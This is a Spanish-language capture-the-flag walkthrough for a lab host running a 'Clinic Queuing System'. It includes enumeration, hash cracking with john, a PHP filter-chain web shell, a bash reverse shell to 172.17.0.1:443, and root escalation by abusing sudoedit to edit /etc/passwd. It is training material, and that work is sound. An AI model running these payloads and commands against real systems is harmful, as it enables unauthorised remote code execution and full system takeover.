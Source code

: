 nmap:  80

![image](https://github.com/user-attachments/assets/2efcdff6-8aab-4844-9d4b-9df84354303e)

---
vamos a la pagina principal y hay un login 

![image](https://github.com/user-attachments/assets/ceb080c3-198f-466f-aeb2-f36ca68675c2)

hacemos un gobuster y nos da algunos que son llamativos

![image](https://github.com/user-attachments/assets/6db3b8c6-b51c-4cfd-b77c-1d350db89b1f)

aquí http://172.17.0.2/patients.php nos da una pagina con un calendario básico

![image](https://github.com/user-attachments/assets/008ad910-5b3d-4d83-ad24-c07126d5aaf7)

al /backup nos descargamos el zip y lo descomprimimos. nos da:

![image](https://github.com/user-attachments/assets/2f6d5bbe-ee79-48d9-869b-f85a7a42c6fe)

ahora entramos a una carpeta que nos dio llamada /db/ y nos da un txt que dentro hay un nombre o dos junto a una posible contraseña.
> castrojessica

![image](https://github.com/user-attachments/assets/feec5145-33e9-4e84-93c6-54fc19abe3f1)


utilizamos esta herramienta https://github.com/urbanadventurer/username-anarchy
para que nos genere contraseñas basadas en los nombres encontrados

dentro de la carpeta viendo el manual, creamos: nano username
> jessica castro

guardamos

ahora hacemos:

    ./username-anarchy -i username > users

y nos dará: 

![image](https://github.com/user-attachments/assets/f63b8c97-7470-4e27-87af-f8f4135137af)

también podemos ver que en el archivo "clinic_queuing_db.db " sale al contraseña 
y podemos hacerlo mas fácil  
pasamos la contraseña un hash 

>  $2y$10$iDHQftaCCEPmdPj/11E3DOGiw3AsOPf6uYBpEAuh8J19oeGuloJIK

  la pasamos a hash, nano hash y pegamos la contraseña
 ahora 
     
     john --wordlist=wordlist.txt hash
 
 y nos da la contraseña: 
 > j.castro
 
![image](https://github.com/user-attachments/assets/baf96a99-91d2-4ac7-bdae-66322e792093)

 
ahora vamos al login.php e ingresamos las credenciales:
> jessica / j.castro

y estamos dentro del panel

![image](https://github.com/user-attachments/assets/85c0234e-5902-4120-a4b1-8bac02376020)

tomamos el nombre principal de la pagina que dice:  # Clinic Queuing System

buscamos un exploit y encontramos: https://www.exploit-db.com/exploits/52008
que vemos que podemos filtrar por php:  py filter_chain 

![image](https://github.com/user-attachments/assets/449a178d-5102-40ea-b9a4-132c9bff8eb9)

buscamos un exploit en github: https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py

ahora copiamos el código  

creamos:
> nano filter.py / pegamos el código guardamos


![image](https://github.com/user-attachments/assets/8c00970d-f30f-4413-8051-73320aed657d)


> ahora python3 filter.py

ahora  en el terminal colocamos:
> python3 filter.py --chain '<?php echo shell_exec($_GET["cmd"]);?>'

nos dará un código que lo copiamos

![image](https://github.com/user-attachments/assets/4759141d-7a61-4ab1-8159-6bf156d6cb2d)

y colocamos el buscador así:  172.17.0.2/?cmd=ls -la&page= y aquí colocamos el código que nos dio  que es vulnerable a ejecución de código remoto (RCE)

![image](https://github.com/user-attachments/assets/1882fd64-397c-4ea4-ad7a-96a8856ac272)

ahora la URL debe quedar así:  172.17.0.2/?cmd=bash -c 'bash -i >%26/dev/tcp/172.17.0.1/443 0>%261'&page= y aquí colocamos el código que nos dio

dejamos la terminal en escucha y lanzamos

![image](https://github.com/user-attachments/assets/30de1100-7353-4a00-8bad-3bf59efb6db9)

y estamos dentro, buscando no encontré mucho y probé con las mismas credenciales ya que no hay otro usuario aparte de jessica y root:  jessica / j.castro

![image](https://github.com/user-attachments/assets/f91d2c15-86ad-4e95-b985-2b3caf3a07be)

ahora al hacer sudo -l aparece:  (root) NOPASSWD: sudoedit /var/www/html/*

para escalar encontré: 

![image](https://github.com/user-attachments/assets/41ea38c9-04e3-402f-845e-c2c726bc7df0)

o sea que puedo modificar el archivo, encontré este comando para poder dar el permiso de modificar por decir asi:

    export EDITOR='nano -- /etc/passwd'

ahora editamos:
  
    sudoedit /var/www/html/index.pgsd

le quitamos la x a root 

![image](https://github.com/user-attachments/assets/bc9961fd-a47b-4faa-98fb-b4f32dcec2af)

![image](https://github.com/user-attachments/assets/df39af77-bdae-4163-b5e1-30263aa60ac9)

colocamos su root y somos root!

![image](https://github.com/user-attachments/assets/05a90d6c-fba4-4a02-bf42-56e0269a8013)

muchas gracias! 
